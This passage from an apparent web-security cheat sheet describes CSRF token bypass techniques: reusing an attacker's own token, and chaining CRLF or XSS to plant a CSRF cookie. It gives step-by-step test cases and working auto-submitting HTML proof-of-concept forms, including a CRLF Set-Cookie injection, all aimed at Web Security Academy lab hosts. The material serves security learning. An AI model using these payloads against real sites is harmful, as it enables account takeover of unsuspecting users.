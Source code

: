 #### Bypass Method - 3: Feed your own account generated CSRF token in attack.

```markdown
Test Case: CSRF token is not tied to the user session.

1. Interect with functionality and intercept the request.
2. Right click generate csrf poc.
3. Copy the code in a file.html remove any session token
4. Drop the request.
5. Send the file.html to victim.

Example CSRF Code:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://acd81f251e0c762980c31ae600c70041.web-security-academy.net:443/email/change-email">
		<input type="text" name="email" value="natsu@natsu.com">
		<input type="text" name="csrf" value="NqdmYFyfHgQl8JWLKd7YTOC24Tqdedpw">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

```

#### Bypass Method - 4 : Chain any other vulnerability to add your cookie for example `XSS`, `CRLF` → `CSRF`

```markdown
Test Case - 1 : CSRF token is tied to a non-session cookie, when we have two csrf token one in cookie and other in the functionality this is due to presence of two framework one for session handling and one for CSRF protection, which are not integrated together.
					 The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on staging.demo.normal-website.com could be leveraged to place a cookie that is submitted to secure.normal-website.com.

1. Find any vulnerability which allow you to inject something in the cookie of victim.
2. Test if CSRF token is tied to session id (try changing session id keeping everything as it is))
3. Check if the your csrf token works when replaced in victims request
4. Lastly check if you can inject CRLF and change csrf cookie value
5. Done now make a csrf poc with xss payload which execute crlf and send this poc to victim

Example CSRF Code:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac981fc81ee9f58b80984ae400200076.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="csrfKey" value="ntq9GTrV4JhtLaX07sqTnMpOHwMGpaX9">
		<input type="text" name="email" value="hehe@hehe.com">
		<input type="text" name="csrf" value="6EU5SJ9YKzfOsq9rNgDR8toGy0TKSw81">
		<input type="submit" value="Send">
	</form>
<img src="http://ac981fc81ee9f58b80984ae400200076.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=ntq9GTrV4JhtLaX07sqTnMpOHwMGpaX9" onerror="document.forms[0].submit()">
```